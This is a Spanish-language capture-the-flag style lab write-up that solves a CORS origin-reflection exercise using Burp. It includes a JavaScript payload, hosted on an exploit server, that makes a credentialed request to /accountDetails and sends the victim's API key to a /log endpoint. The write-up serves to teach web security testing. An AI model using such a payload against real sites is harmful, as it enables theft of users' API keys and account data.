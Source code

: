 <br />

**Laboratorio 1: CORS vulnerability with basic origin reflection**

Este sitio web tiene una configuración CORS insegura que confía en todos los origenes.

Para resolver este laboratorio vamos a craftear un código JavaScript que utiliza el CORS para obtener la API key del administrador y utilizarlo en un exploit. Se dispone de las credenciales de wiener:peter.

En primer lugar accedemos al laboratorio y nos logeamos con nuestras credenciales. Una vez dentro observamos que tenemos una API key asignada y que el navegador es capaz de mostrarmela gracias a un GET a la página /accountDetails tal y como se puede ver en la pestaña HTTPhistory de Burp:

<div style="text-align:center">
	<img src="{{ 'assets/img/Burp/Pasted image 20220503234436.png' | relative_url }}" text-align="center"/>
</div>

Por otra parte, la respuesta contiene la cabecera Access-Control-Allow, lo cual sugiere que utiliza el CORS para compartir recursos:

<div style="text-align:center">
	<img src="{{ 'assets/img/Burp/Pasted image 20220503234621.png' | relative_url }}" text-align="center"/>
</div>

De esta forma, vamos a comprobar si admite que cualquier origen puede acceder a los recursos de la página, para ello utilizamos el siguiente código JavaScript para obtener la API key de la respuesta:

```html
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','$url/accountDetails',true);
req.withCredentials = true; req.send();
function reqListener() {

location='/log?key='+this.responseText;

};
</script>
```

Lo crafteamos como html en el servidor del exploit:

<div style="text-align:center">
	<img src="{{ 'assets/img/Burp/Pasted image 20220503235135.png' | relative_url }}" text-align="center"/>
</div>

Y le damos a "view exploit" para comprobar que ha funcionado obteniendo que nuestra API key está dentro de la URL:

<div style="text-align:center">
	<img src="{{ 'assets/img/Burp/Pasted image 20220503235258.png' | relative_url }}" text-align="center"/>
</div>
